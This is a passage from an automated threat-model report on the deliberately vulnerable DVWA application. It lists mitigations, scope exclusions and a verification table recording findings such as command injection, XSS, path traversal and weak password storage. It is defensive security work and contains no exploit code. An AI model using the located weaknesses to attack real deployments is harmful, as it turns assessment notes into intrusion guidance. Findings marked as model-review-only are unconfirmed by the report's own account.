**Reference:** [CWE-915: Improperly Controlled Modification of Dynamically-Determined Object Attributes (Mass Assignment)](https://cwe.mitre.org/data/definitions/915.html)

---

<a id="m-081"></a>
#### M-081 — Enforce role checks on user API operations

**Addresses:**

- 🟡 [F-097](#f-097) — Unauthenticated or low-privilege caller uses user-management

**Prevents CWEs:**

- [CWE-862](https://cwe.mitre.org/data/definitions/862.html) - Missing Authorization

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `vulnerabilities/api/public/index.php:71`

**How:** Enforce role checks on user API operations

1. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

_Generic CWE-862 pattern, not code from this repository:_

```typescript
// Add server-side role check on every admin route.
router.use('/admin/*', (req, res, next) => {
  if (req.user?.role !== 'admin') return res.status(403).end()
  next()
})
```

**Verification:** Re-run the security scan; the CWE-862 finding at `vulnerabilities/api/public/index.php:71` is cleared, and the regression test passes.

---

### P4 — Backlog

<a id="m-080"></a>
#### M-080 — Re-check current roles and account status when a session or token is used

**Addresses:**

- 🟡 [F-096](#f-096) — User keeps

**Prevents CWEs:**

- [CWE-613](https://cwe.mitre.org/data/definitions/613.html)

**Priority:** P4 - Backlog · **Effort:** Medium · **File:** `vulnerabilities/cryptography/source/check_token_high.php:15`

**How:** Re-check current roles and account status when a session or token is used

1. Add a regression test (or CI check) that fails on the vulnerable pattern and passes once the fix is in place.

**Verification:** Re-run the security scan; the CWE-613 finding at `vulnerabilities/cryptography/source/check_token_high.php:15` is cleared, and the regression test passes.

---

## 11. Out of Scope

### Not Covered by This Method

An automated, AI-assisted threat model built from the repository's source code and configuration - static analysis only, no dynamic or penetration testing. It models the system as built rather than as designed. It does not replace a threat-modeling session with the team: business context, design intent, runtime behaviour and production configuration are not covered, and each finding still needs confirmation in the deployed system.

- Design intent and the reasoning behind it - no design documents, ADRs or workshop context are read.
- Business processes and user journeys that leave the code.
- Runtime behaviour, deployment topology and production-only configuration.
- External and organizational controls.

Treat this report as review input, not sign-off.

### Excluded from This Assessment

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities
- Opt-in threat actors, not assessed: malicious insiders with repository or pipeline access; malicious insiders with production access; attackers holding a user's device. Enable them with `enable:` in `.appsec/actors.yaml`.

---

<a id="appendix-verification-items"></a>
## Appendix: Verification Items

Verification catalog version 6. Examined in this run: 12 finding · 7 control evidenced · 2 no finding, no control · 13 undecidable · 99 not applicable. A verification item is reported as a control only when every applicable rule is satisfied; a rule without a recorded scanner result never counts as satisfied. A finding that several verification items link counts once in the severity totals and once per verification item here.

A model-investigated verification item shows one row per component. It is a control only when the control is evidenced at every candidate location; a partial, no finding or undecidable result is never a control. Comments, documentation and controls outside the examined sources are not control evidence.

| Verification item | Aspect | Outcome | Reason |
|----------------------|-------------|----------------------|------------------------------------|
| [TC-AUTHN-01](#tc-authn-01) | AuthNRoutes | Not examined | Needs a model investigation that this run<br/>did not make. |
| [TC-AUTHN-02](#tc-authn-02) · 4 components | AuthN | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-AUTHN-03](#tc-authn-03) · 4 components | AuthN | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-AUTHN-04](#tc-authn-04) · DVWA API service | AuthN | Finding | weakness at 3 of 3 candidate locations |
| [TC-AUTHN-04](#tc-authn-04) · DVWA web application | AuthN | Finding | weakness at 6 of 6 candidate locations |
| [TC-AUTHN-04](#tc-authn-04) · 2 components | AuthN | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline |
| [TC-AUTHN-05](#tc-authn-05) · DVWA API service | AuthN | Control evidenced | control evidenced by model review only at<br/>all 2 candidate locations |
| [TC-AUTHN-05](#tc-authn-05) · DVWA web application | AuthN | Control evidenced | control evidenced by model review only at<br/>all 1 candidate locations |
| [TC-AUTHN-05](#tc-authn-05) · 2 components | AuthN | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline |
| [TC-AUTHN-06](#tc-authn-06) · 4 components | AuthN | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-AUTHN-07](#tc-authn-07) · DVWA API service | AuthN | Finding | weakness at 5 of 6 candidate locations;<br/>control evidenced by model review only at 1 |
| [TC-AUTHN-07](#tc-authn-07) · 3 components | AuthN | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA web<br/>application |
| [TC-SESSION-01](#tc-session-01) | SessionMgmt | Not examined | Needs a model investigation that this run<br/>did not make. |
| [TC-AUTHZ-01](#tc-authz-01) · 4 components | AuthZ | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-AUTHZ-02](#tc-authz-02) · 4 components | AuthZ | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-AUTHZ-03](#tc-authz-03) · 4 components | AuthZ | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-AUTHZ-04](#tc-authz-04) · 4 components | AuthZ | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-AUTHZ-05](#tc-authz-05) · DVWA API service | AuthZ | Undecidable | no test case of the aspect has a starting<br/>candidate in the component, so no model job<br/>ran |
| [TC-AUTHZ-05](#tc-authz-05) · DVWA web application | AuthZ | Undecidable | no test case of the aspect has a starting<br/>candidate in the component, so no model job<br/>ran |
| [TC-AUTHZ-05](#tc-authz-05) · 2 components | AuthZ | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline |
| [TC-AUTHZ-06](#tc-authz-06) · 4 components | AuthZ | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-INPUT-01](#tc-input-01) · 4 components | InputVal | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-INPUT-02](#tc-input-02) · 4 components | InputVal | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-INPUT-03](#tc-input-03) · DVWA API service | InputVal | Finding | weakness at 9 of 12 candidate locations;<br/>control evidenced by model review only at 3 |
| [TC-INPUT-03](#tc-input-03) · DVWA web application | InputVal | Control evidenced | control evidenced by model review only at<br/>all 3 candidate locations |
| [TC-INPUT-03](#tc-input-03) · 2 components | InputVal | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline |
| [TC-INPUT-04](#tc-input-04) · DVWA API service | InputVal | Finding | weakness at 4 of 10 candidate locations |
| [TC-INPUT-04](#tc-input-04) · DVWA web application | InputVal | Undecidable | the investigation examined no candidate<br/>location in the component |
| [TC-INPUT-04](#tc-input-04) · 2 components | InputVal | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline |
| [TC-INPUT-05](#tc-input-05) · DVWA API service | InputVal | Undecidable | the investigation examined no candidate<br/>location in the component |
| [TC-INPUT-05](#tc-input-05) · 3 components | InputVal | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA web<br/>application |
| [TC-INPUT-06](#tc-input-06) · 4 components | InputVal | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-FILE-01](#tc-file-01) · DVWA API service | InputVal | Finding | weakness at 8 of 8 candidate locations |
| [TC-FILE-01](#tc-file-01) · DVWA web application | InputVal | Control evidenced | control evidenced by model review only at<br/>all 1 candidate locations |
| [TC-FILE-01](#tc-file-01) · 2 components | InputVal | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline |
| [TC-FILE-02](#tc-file-02) · DVWA API service | InputVal | Finding | weakness at 5 of 15 candidate locations;<br/>control evidenced by model review only at 9 |
| [TC-FILE-02](#tc-file-02) · 3 components | InputVal | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA web<br/>application |
| [TC-INPUT-07](#tc-input-07) · 4 components | InputVal | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-DATA-01](#tc-data-01) · 4 components | DataProt | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-DATA-02](#tc-data-02) · MariaDB database | DataProt | Undecidable | no test case of the aspect has a starting<br/>candidate in the component, so no model job<br/>ran |
| [TC-DATA-02](#tc-data-02) · CI/CD Pipeline | DataProt | No finding, no control | no weakness or control at 1 examined<br/>candidate locations |
| [TC-DATA-02](#tc-data-02) · DVWA API service | DataProt | Undecidable | no test case of the aspect has a starting<br/>candidate in the component, so no model job<br/>ran |
| [TC-DATA-02](#tc-data-02) · DVWA web application | DataProt | Undecidable | no test case of the aspect has a starting<br/>candidate in the component, so no model job<br/>ran |
| [TC-DATA-03](#tc-data-03) · MariaDB database | DataProt | Undecidable | no test case of the aspect has a starting<br/>candidate in the component, so no model job<br/>ran |
| [TC-DATA-03](#tc-data-03) · CI/CD Pipeline | DataProt | Finding | weakness at 1 of 1 candidate locations |
| [TC-DATA-03](#tc-data-03) · DVWA API service | DataProt | Undecidable | no test case of the aspect has a starting<br/>candidate in the component, so no model job<br/>ran |
| [TC-DATA-03](#tc-data-03) · DVWA web application | DataProt | Undecidable | no test case of the aspect has a starting<br/>candidate in the component, so no model job<br/>ran |
| [TC-DATA-04](#tc-data-04) · MariaDB database | DataProt | Undecidable | no test case of the aspect has a starting<br/>candidate in the component, so no model job<br/>ran |
| [TC-DATA-04](#tc-data-04) · CI/CD Pipeline | DataProt | No finding, no control | no weakness or control at 1 examined<br/>candidate locations |
| [TC-DATA-04](#tc-data-04) · DVWA API service | DataProt | Undecidable | no test case of the aspect has a starting<br/>candidate in the component, so no model job<br/>ran |
| [TC-DATA-04](#tc-data-04) · DVWA web application | DataProt | Undecidable | no test case of the aspect has a starting<br/>candidate in the component, so no model job<br/>ran |
| [TC-DATA-05](#tc-data-05) · 4 components | DataProt | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-CRYPTO-01](#tc-crypto-01) | Crypto | Not examined | Needs a model investigation that this run<br/>did not make. |
| [TC-CRYPTO-02](#tc-crypto-02) | Crypto | Not examined | Needs a model investigation that this run<br/>did not make. |
| [TC-FRONT-01](#tc-front-01) | FrontendSec | Not examined | Needs a model investigation that this run<br/>did not make. |
| [TC-MOBILE-01](#tc-mobile-01) | FrontendSec | Not examined | Needs a model investigation that this run<br/>did not make. |
| [TC-AUDIT-01](#tc-audit-01) | Audit | Not examined | Needs a model investigation that this run<br/>did not make. |
| [TC-AVAIL-01](#tc-avail-01) | Availability | Not examined | Needs a model investigation that this run<br/>did not make. |
| [TC-LOGIC-01](#tc-logic-01) | BusinessLogic | Not examined | Needs a model investigation that this run<br/>did not make. |
| [TC-AI-01](#tc-ai-01) · 4 components | AI | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-AI-02](#tc-ai-02) · 4 components | AI | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-AI-03](#tc-ai-03) · 4 components | AI | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-AI-04](#tc-ai-04) · 4 components | AI | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-AI-05](#tc-ai-05) · 4 components | AI | Not applicable | no applicability signal of the test case<br/>shows in the examined code: MariaDB<br/>database, CI/CD Pipeline, DVWA API service,<br/>DVWA web application |
| [TC-INFRA-01](#tc-infra-01) | Infra | Finding | 1 of 5 applicable rules violated |
| [TC-INFRA-02](#tc-infra-02) | Infra | Control evidenced | all 1 applicable rules satisfied |
| [TC-INFRA-03](#tc-infra-03) | Infra | Not examined | Needs a model investigation that this run<br/>did not make. |
| [TC-SUPPLY-01](#tc-supply-01) | SupplyChain | Finding | 4 of 4 applicable rules violated |
| [TC-SUPPLY-02](#tc-supply-02) | SupplyChain | Not applicable | no rule of this test case applies to the<br/>examined sources |
| [TC-SUPPLY-03](#tc-supply-03) | SupplyChain | Control evidenced | all 1 applicable rules satisfied |
| [TC-SUPPLY-04](#tc-supply-04) | SupplyChain | Finding | 1 of 1 applicable rules violated |
| [TC-CI-01](#tc-ci-01) | SupplyChain | Finding | 1 of 2 applicable rules violated |
| [TC-CI-02](#tc-ci-02) | SupplyChain | Not examined | Needs a model investigation that this run<br/>did not make. |
| [TC-DEVAGENT-01](#tc-devagent-01) | DevTooling | Control evidenced | all 1 applicable rules satisfied |
| [TC-DEVAGENT-02](#tc-devagent-02) | DevTooling | Not applicable | no rule of this test case applies to the<br/>examined sources |

<a id="tc-authn-01"></a>
### TC-AUTHN-01: Sensitive routes, operations, and channels require authentication

Mode: seeded. STRIDE: Spoofing, Elevation of Privilege. CWE: CWE-306.

Objective: Determine whether every route, operation, and channel that reaches sensitive data or functions requires an authenticated caller.

Evidence for a control: location where authentication is enforced for the route or channel.

<a id="tc-authn-02"></a>
### TC-AUTHN-02: Tokens are verified with a pinned algorithm and a server-held key

Mode: seeded. STRIDE: Spoofing. CWE: CWE-347, CWE-345.

Objective: Determine whether every token the application accepts is verified with a pinned algorithm and a key held by the server.

Evidence for a control: location of the verification call with its algorithm and key source.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-authn-03"></a>
### TC-AUTHN-03: Token expiry, issuer, and audience are validated

Mode: seeded. STRIDE: Spoofing. CWE: CWE-345.

Objective: Determine whether token lifetime, issuer, and audience are checked wherever tokens are accepted.

Evidence for a control: location of the claim validation.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-authn-04"></a>
### TC-AUTHN-04: Passwords are strong and stored with an adaptive hash

Mode: seeded. STRIDE: Spoofing, Information Disclosure. CWE: CWE-916, CWE-521.

Objective: Determine whether passwords are subject to a minimum strength and stored only with an adaptive hash and a sufficient cost.

Evidence for a control: location of the adaptive hash call with its cost and of the policy check.

Not applicable for 2 components: MariaDB database, CI/CD Pipeline.

Outcome for DVWA API service: Finding. weakness at 3 of 3 candidate locations. Candidate locations: 3 (3 weakness, 2 rejected).

Confirmed by the evidence review; no post-check confirmed it.

Findings: 🟠 [F-002](#f-002) — Passwords hashed with unsalted MD5 and no strength policy, 🟡 [F-049](#f-049) — API user creation sets a fixed default password.

Outcome for DVWA web application: Finding. weakness at 6 of 6 candidate locations. Candidate locations: 6 (6 weakness, 1 rejected).

Confirmed by the evidence review; no post-check confirmed it.

Findings: 🟠 [F-008](#f-008) — Seeded default accounts with trivial passwords stored as unsalted, 🟠 [F-007](#f-007) — Seeded accounts use trivially guessable default passwords.

<a id="tc-authn-05"></a>
### TC-AUTHN-05: Recovery, re-authentication, and login responses resist takeover and enumeration

Mode: model. STRIDE: Spoofing, Information Disclosure. CWE: CWE-640, CWE-204.

Objective: Determine whether account recovery, password change, and login responses prevent takeover and do not reveal which accounts exist.

Evidence for a control: location of the verification step or uniform response.

Not applicable for 2 components: MariaDB database, CI/CD Pipeline.

Outcome for DVWA API service: Control evidenced. control evidenced by model review only at all 2 candidate locations. Candidate locations: 2 (2 control).

Evidenced by model review only; no post-check confirmed it.

Outcome for DVWA web application: Control evidenced. control evidenced by model review only at all 1 candidate locations. Candidate locations: 1 (1 control).

Evidenced by model review only; no post-check confirmed it.

<a id="tc-authn-06"></a>
### TC-AUTHN-06: SSO and OAuth sign-in binds each response to its request and validates the identity it receives

Mode: seeded. STRIDE: Spoofing, Tampering. CWE: CWE-352, CWE-601, CWE-345, CWE-347.

Objective: Determine whether every OAuth 2.0, OpenID Connect, or SAML sign-in uses the authorization code flow with PKCE or a confidential client, binds the response to its request with state or nonce, redirects only to exactly registered URIs, and validates the token, user info, or assertion it receives before it signs a user in.

Evidence for a control: location of the PKCE, state, or nonce check, the redirect allow-list, or the token or assertion validation.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-authn-07"></a>
### TC-AUTHN-07: Credentials and tokens travel only by secure authentication methods

Mode: seeded. STRIDE: Spoofing, Information Disclosure. CWE: CWE-598, CWE-522, CWE-1390.

Objective: Determine whether the application authenticates only by methods that keep credentials and tokens out of URLs and cleartext, avoid deprecated flows such as the OAuth implicit or password grant, and never accept a credential that a client can derive from public data.

Evidence for a control: location that enforces the secure method, such as a header-only token read or a TLS-only listener.

Not applicable for 3 components: MariaDB database, CI/CD Pipeline, DVWA web application.

Outcome for DVWA API service: Finding. weakness at 5 of 6 candidate locations; control evidenced by model review only at 1. Candidate locations: 6 (5 weakness, 1 control).

Confirmed by the evidence review; no post-check confirmed it.

Findings: 🟡 [F-074](#f-074) — Profile access gated by a fixed hardcoded query-string token, 🟡 [F-067](#f-067) — Login forms send passwords in GET query strings, 🟡 [F-050](#f-050) — API token endpoint supports the deprecated OAuth.

<a id="tc-session-01"></a>
### TC-SESSION-01: Session tokens are protected in storage, transport, lifetime, and logout

Mode: model. STRIDE: Spoofing, Information Disclosure. CWE: CWE-613, CWE-1004, CWE-614.

Objective: Determine whether session tokens are protected against theft and reuse in storage, transport, lifetime, and logout.

Evidence for a control: location of the protecting attribute, invalidation, or lifetime limit.

<a id="tc-authz-01"></a>
### TC-AUTHZ-01: Object access checks the owner

Mode: seeded. STRIDE: Elevation of Privilege. CWE: CWE-639.

Objective: Determine whether every access to user-owned objects in this component is bound to the authenticated caller or tenant.

Evidence for a control: location of the ownership comparison.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-authz-02"></a>
### TC-AUTHZ-02: Privileged operations check the role or permission

Mode: seeded. STRIDE: Elevation of Privilege. CWE: CWE-285, CWE-862.

Objective: Determine whether every privileged operation checks the caller's role or permission on the server.

Evidence for a control: location of the role or permission check.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-authz-03"></a>
### TC-AUTHZ-03: Request bodies cannot set privileged fields

Mode: seeded. STRIDE: Tampering, Elevation of Privilege. CWE: CWE-915.

Objective: Determine whether request bodies can set fields that only the server or a privileged role may set, such as role, owner, price, or status.

Evidence for a control: location of the field allow-list or explicit field assignment.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-authz-04"></a>
### TC-AUTHZ-04: Tenant data stays isolated

Mode: model. STRIDE: Information Disclosure, Elevation of Privilege. CWE: CWE-639, CWE-284.

Objective: Determine whether data of one tenant is reachable only with that tenant's identity at every data access.

Evidence for a control: location of the tenant scope on the data access.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-authz-05"></a>
### TC-AUTHZ-05: Authorization the client interface implies is enforced on the server

Mode: model. STRIDE: Elevation of Privilege. CWE: CWE-602, CWE-285.

Objective: Determine whether restrictions that the client interface implies, such as hidden buttons or disabled forms, are also enforced by the server.

Evidence for a control: location of the server-side check.

Not applicable for 2 components: MariaDB database, CI/CD Pipeline.

Outcome for DVWA API service: Undecidable. no test case of the aspect has a starting candidate in the component, so no model job ran. Candidate locations: 0.

Outcome for DVWA web application: Undecidable. no test case of the aspect has a starting candidate in the component, so no model job ran. Candidate locations: 0.

<a id="tc-authz-06"></a>
### TC-AUTHZ-06: Callers cannot read or change data beyond their rights

Mode: model. STRIDE: Information Disclosure, Tampering, Elevation of Privilege. CWE: .

Objective: Determine whether a caller can read, change, or delete records of other users, or records that only privileged roles may change, by any path in this component.

Evidence for a control: location of the check that keeps the object out of reach.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-input-01"></a>
### TC-INPUT-01: Database queries are parameterized

Mode: seeded. STRIDE: Tampering. CWE: CWE-89.

Objective: Determine whether request-derived values reach database queries only as bound parameters.

Evidence for a control: location of the parameter binding or query builder.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-input-02"></a>
### TC-INPUT-02: NoSQL predicates are not built from input

Mode: seeded. STRIDE: Tampering. CWE: CWE-943.

Objective: Determine whether query predicates for document databases are free of request-controlled operators and code.

Evidence for a control: location of the schema validation or fixed predicate.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-input-03"></a>
### TC-INPUT-03: Input cannot reach OS commands, code evaluation, or template compilation

Mode: seeded. STRIDE: Tampering, Elevation of Privilege. CWE: CWE-78, CWE-94, CWE-1336.

Objective: Determine whether request-derived values can reach a shell, a code evaluator, or a template compiler.

Evidence for a control: location of the fixed command, argument array, or sandbox.

Not applicable for 2 components: MariaDB database, CI/CD Pipeline.

Outcome for DVWA API service: Finding. weakness at 9 of 12 candidate locations; control evidenced by model review only at 3. Candidate locations: 12 (9 weakness, 3 control, 5 rejected).

Findings: 🔴 [F-005](#f-005) — OS command injection in ping and health connectivity checks, 🟡 [F-072](#f-072) — Eval of file contents at user-controlled help.

Outcome for DVWA web application: Control evidenced. control evidenced by model review only at all 3 candidate locations. Candidate locations: 3 (3 control).

Evidenced by model review only; no post-check confirmed it.

<a id="tc-input-04"></a>
### TC-INPUT-04: Output is encoded for its context, including DOM sinks

Mode: model. STRIDE: Tampering, Information Disclosure. CWE: CWE-79.

Objective: Determine whether untrusted values are encoded for the context in which they are rendered, including server templates and DOM sinks.

Evidence for a control: location of the context-aware encoding or sanitizer.

Not applicable for 2 components: MariaDB database, CI/CD Pipeline.

Outcome for DVWA API service: Finding. weakness at 4 of 10 candidate locations. Candidate locations: 10 (4 weakness, 4 undecidable, 8 rejected).

Findings: 🟡 [F-054](#f-054) — Stored XSS in authbypass user table, 🟠 [F-009](#f-009) — DOM XSS from URL default parameter written, 1 not in the findings register.

Outcome for DVWA web application: Undecidable. the investigation examined no candidate location in the component. Candidate locations: 0.

<a id="tc-input-05"></a>
### TC-INPUT-05: Outbound requests cannot be steered to unintended destinations

Mode: seeded. STRIDE: Information Disclosure, Tampering. CWE: CWE-918.

Objective: Determine whether request-derived values can choose the destination of an outbound request.

Evidence for a control: location of the destination allow-list.

Not applicable for 3 components: MariaDB database, CI/CD Pipeline, DVWA web application.

Outcome for DVWA API service: Undecidable. the investigation examined no candidate location in the component. Candidate locations: 0.

<a id="tc-input-06"></a>
### TC-INPUT-06: Parsers reject external entities and unsafe deserialization

Mode: seeded. STRIDE: Tampering, Information Disclosure, Elevation of Privilege. CWE: CWE-611, CWE-502.

Objective: Determine whether XML parsers disable external entities and whether deserialization of untrusted data is restricted to safe types.

Evidence for a control: location of the hardened parser configuration or type allow-list.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-file-01"></a>
### TC-FILE-01: File paths stay within intended directories and files are served only as intended

Mode: seeded. STRIDE: Tampering, Information Disclosure. CWE: CWE-22.

Objective: Determine whether request-derived values can select files outside the intended directories and whether static serving exposes more than intended.

Evidence for a control: location of the path normalization and containment check.

Not applicable for 2 components: MariaDB database, CI/CD Pipeline.

Outcome for DVWA API service: Finding. weakness at 8 of 8 candidate locations. Candidate locations: 8 (8 weakness, 16 rejected).

Findings: 🟡 [F-063](#f-063) — Path traversal in help viewer id and locale, 🟠 [F-029](#f-029) — Path traversal in source viewer reads, 1 not in the findings register.

Outcome for DVWA web application: Control evidenced. control evidenced by model review only at all 1 candidate locations. Candidate locations: 1 (1 control, 2 rejected).

Evidenced by model review only; no post-check confirmed it.

<a id="tc-file-02"></a>
### TC-FILE-02: Uploads and archives are type-checked, size-limited, and extracted safely

Mode: model. STRIDE: Tampering, Denial of Service. CWE: CWE-434, CWE-409, CWE-22.

Objective: Determine whether uploads and archives are checked for type and size and are extracted without writing outside the target directory.

Evidence for a control: location of the type, size, and path checks.

Not applicable for 3 components: MariaDB database, CI/CD Pipeline, DVWA web application.

Outcome for DVWA API service: Finding. weakness at 5 of 15 candidate locations; control evidenced by model review only at 9. Candidate locations: 15 (5 weakness, 9 control).

Findings: 🟠 [F-033](#f-033) — Unrestricted file upload into web-served directory keeps client name, 🟠 [F-034](#f-034) — Upload filter trusts client-supplied MIME type.

<a id="tc-input-07"></a>
### TC-INPUT-07: Input cannot take control of what the server executes, stores, or reaches

Mode: model. STRIDE: Tampering, Elevation of Privilege, Information Disclosure. CWE: .

Objective: Determine whether untrusted input can make this component run code or commands of the attacker's choice, read or change stored data outside the intended query, or reach files, hosts, or resources it should not, by any interpreter, parser, or library.

Evidence for a control: location of the validation, binding, or isolation that stops it.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-data-01"></a>
### TC-DATA-01: Responses contain only intended fields

Mode: model. STRIDE: Information Disclosure. CWE: CWE-200, CWE-213.

Objective: Determine whether responses contain only the fields the caller needs and may see.

Evidence for a control: location of the field selection or response mapping.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-data-02"></a>
### TC-DATA-02: Sensitive data is protected at rest

Mode: seeded. STRIDE: Information Disclosure. CWE: CWE-311, CWE-922.

Objective: Determine whether sensitive data is stored encrypted or in protected storage.

Evidence for a control: location of the encryption or protected storage configuration.

Outcome for MariaDB database: Undecidable. no test case of the aspect has a starting candidate in the component, so no model job ran. Candidate locations: 0.

Outcome for CI/CD Pipeline: No finding, no control. no weakness or control at 1 examined candidate locations. Candidate locations: 1.

Outcome for DVWA API service: Undecidable. no test case of the aspect has a starting candidate in the component, so no model job ran. Candidate locations: 0.

Outcome for DVWA web application: Undecidable. no test case of the aspect has a starting candidate in the component, so no model job ran. Candidate locations: 0.

<a id="tc-data-03"></a>
### TC-DATA-03: Secrets are not embedded in code, client bundles, or deployment files

Mode: seeded. STRIDE: Information Disclosure. CWE: CWE-798, CWE-540.

Objective: Determine whether credentials, keys, and tokens are kept out of source, client bundles, and deployment files.

Evidence for a control: location of the secret reference to an external store.

Outcome for MariaDB database: Undecidable. no test case of the aspect has a starting candidate in the component, so no model job ran. Candidate locations: 0.

Outcome for CI/CD Pipeline: Finding. weakness at 1 of 1 candidate locations. Candidate locations: 1 (1 weakness).

Confirmed by the evidence review; no post-check confirmed it.

Findings: 🟠 [F-028](#f-028) — Static database credentials hardcoded in compose file.

Outcome for DVWA API service: Undecidable. no test case of the aspect has a starting candidate in the component, so no model job ran. Candidate locations: 0.

Outcome for DVWA web application: Undecidable. no test case of the aspect has a starting candidate in the component, so no model job ran. Candidate locations: 0.

<a id="tc-data-04"></a>
### TC-DATA-04: Data in transit is encrypted and kept out of URLs

Mode: seeded. STRIDE: Information Disclosure, Tampering. CWE: CWE-319, CWE-598.

Objective: Determine whether sensitive data travels only over encrypted channels and is kept out of URLs.

Evidence for a control: location of the TLS configuration or header.

Outcome for MariaDB database: Undecidable. no test case of the aspect has a starting candidate in the component, so no model job ran. Candidate locations: 0.

Outcome for CI/CD Pipeline: No finding, no control. no weakness or control at 1 examined candidate locations. Candidate locations: 1.

Outcome for DVWA API service: Undecidable. no test case of the aspect has a starting candidate in the component, so no model job ran. Candidate locations: 0.

Outcome for DVWA web application: Undecidable. no test case of the aspect has a starting candidate in the component, so no model job ran. Candidate locations: 0.

<a id="tc-data-05"></a>
### TC-DATA-05: Sensitive data cannot reach anyone not entitled to it

Mode: model. STRIDE: Information Disclosure. CWE: .

Objective: Determine whether credentials, personal data, or payment data that this component handles can reach a person or system not entitled to it, through responses, errors, logs, exports, files, caches, or outbound calls.

Evidence for a control: location of the field selection, masking, or access check.

Not applicable for 4 components: MariaDB database, CI/CD Pipeline, DVWA API service, DVWA web application.

<a id="tc-crypto-01"></a>
### TC-CRYPTO-01: Cryptographic primitives are current and not hand-rolled

Mode: seeded. STRIDE: Information Disclosure, Tampering. CWE: CWE-327, CWE-328.

Objective: Determine whether security-relevant cryptography uses current algorithms and modes from vetted libraries.

Evidence for a control: location of the current primitive and mode.

<a id="tc-crypto-02"></a>
### TC-CRYPTO-02: Secrets and tokens use cryptographic randomness and are not derived from public data

Mode: seeded. STRIDE: Spoofing, Information Disclosure. CWE: CWE-330, CWE-338.

Objective: Determine whether secrets, tokens, and identifiers that grant access are generated with cryptographic randomness.

Evidence for a control: location of the cryptographic generator.

<a id="tc-front-01"></a>
### TC-FRONT-01: Browser protections are configured: CSP, framing, CORS, subresource integrity, message origins
